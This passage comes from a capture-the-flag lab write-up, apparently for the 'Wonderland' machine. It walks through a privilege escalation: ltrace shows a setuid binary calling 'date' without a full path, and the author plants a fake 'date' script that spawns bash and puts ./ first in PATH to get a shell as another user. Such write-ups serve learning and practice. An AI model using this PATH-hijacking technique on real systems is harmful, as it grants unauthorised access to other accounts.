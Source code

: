 Executing it, we see that it wants us to wait an hour for the arrival of the hatter :

```console
rabbit@wonderland:/home/rabbit$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Wed, 22 Sep 2021 02:31:48 +0000
Ask very nicely, and I will give you some tea while you wait for him
```

Does that date output look familiar? Compare it to the output of the date binary : 

```console
rabbit@wonderland:/home/rabbit$ date
Wed Sep 22 01:32:40 UTC 2021
```

There are a number of ways to confirm whether the binary is using date (strings works, cating the binary works, strace, IDA if you're feeling up to it, etc.)- here, we'll use ltrace with the `-s` flag to stop it truncating the output :

```console
rabbit@wonderland:/home/rabbit$ ltrace -s 100 ./teaParty
setuid(1003)
setgid(1003)
...snip...
system("/bin/echo -n 'Probably by ' && date --date='next hour' -R"Probably by Wed, 22 Sep 2021 02:41:30 +0000
...snip..
```

The first two lines sets the UID and GID to the hatter user (you can double check this against the entries in `/etc/passwd`), and the following lines confirm that the teaParty binary is using date. More importantly, we see that the binary that it does not provide a full path to date. In these cases, the system relies on the PATH variable to resolve the location of the named binary (sounding familiar?). To exploit this reliance on the PATH variable, we first create a bash shell script named `date` in rabbit's home directory :

```console
rabbit@wonderland:/home/rabbit$ cat date
#!/bin/bash

bash
```

We then update the PATH variable to include the location of the pwd at the start : 

```console
rabbit@wonderland:/home/rabbit$ export PATH=./:$PATH
```

and execute teaParty : 

```console
rabbit@wonderland:/home/rabbit$ ./teaParty
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ id
uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)
```
